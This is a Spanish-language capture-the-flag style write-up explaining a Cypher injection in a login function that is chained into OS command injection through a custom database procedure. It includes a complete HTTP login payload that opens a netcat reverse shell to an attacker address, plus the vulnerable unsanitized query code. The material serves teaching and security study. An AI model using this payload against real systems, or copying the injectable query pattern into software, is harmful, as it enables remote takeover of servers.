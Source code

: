 ```python
```

La parte vulnerable que nos lleva al rce dentro de la maquina es el siguiente error dentro del codigo
```python
cypher = f"MATCH (u:USER)-[:SECRET]->(h:SHA1) WHERE u.name = '{username}' RETURN h.value as hash"
```

### **Flujo de Explotación:**

El exploit se divide en **dos capas de inyección** :

- **Capa 1:** Inyección de **Cypher** en el formulario de login.
- **Capa 2:** Inyección de **comandos del sistema** mediante el procedimiento `custom.getUrlStatusCode`

### **Cómo se Comunica el Exploit con el Servidor:**

El atacante envía una solicitud **POST** a `/api/auth` con credenciales maliciosas. Por ejemplo:

```http
POST /api/auth HTTP/1.1
Content-Type: application/json

{
  "username": "a' RETURN h.value AS a UNION CALL custom.getUrlStatusCode('example.com;busybox nc -e /bin/sh 10.10.x.x 4444;#') YIELD statusCode AS a RETURN a;//",
  "password": "any_password"
}
```

### **Análisis del Código Vulnerable:**

#### **Inyección de Cypher en `verify_creds`:**

La función `verify_creds` construye una consulta **Cypher** usando interpolación de cadenas **sin sanitizar** el `username`:

```python
def verify_creds(username, password):
    cypher = (
        f"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '{username}' return h.value as hash"
    )
    results = run_cypher(cypher)
    # ...
```

Si el `username` es `a' UNION...`, la consulta se transforma en:

```cypher
MATCH (u:USER)-[:SECRET]->(h:SHA1) 
WHERE u.name = 'a' 
RETURN h.value AS a 
UNION 
CALL custom.getUrlStatusCode('example.com;busybox nc -e /bin/sh 10.10.x.x 4444;#') 
YIELD statusCode AS a 
RETURN a;//'
```
